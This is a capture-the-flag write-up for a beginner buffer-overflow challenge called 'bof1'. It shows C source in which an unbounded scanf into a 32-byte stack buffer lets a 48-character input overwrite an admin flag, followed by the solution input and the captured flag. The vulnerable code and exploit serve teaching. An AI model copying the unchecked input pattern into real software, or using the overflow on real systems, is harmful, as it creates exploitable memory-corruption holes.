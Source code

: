 # bof1

## Pwn that buffer!

Both a binary and a C source file were given.

```
#include <stdio.h>
#include <stdlib.h>

void win(void) {
	char flag[64];
	
	FILE* fp = fopen("flag.txt", "r");
	if(!fp) {
		puts("error, contact admin");
		exit(0);
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	puts(flag);
}

int main(void) {
	int admin = 0;
	char buf[32];
	
	scanf("%s", buf);
	
	if(admin) {
		win();
	}
	else {
		puts("nope!");
	}
	
	return 0;
}
```
To capture the flag, we need to change the value of ```admin``` which is stored on the stack. Thankfully, ```scanf()``` does not check for the size of the input, so we can just overflow the buffer, which is also stored on the stack, using a string longer than 32 characters.

**Solution**
```
./bof1 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

**Flag**
```
flag{my_first_buffer_overflow!}
```
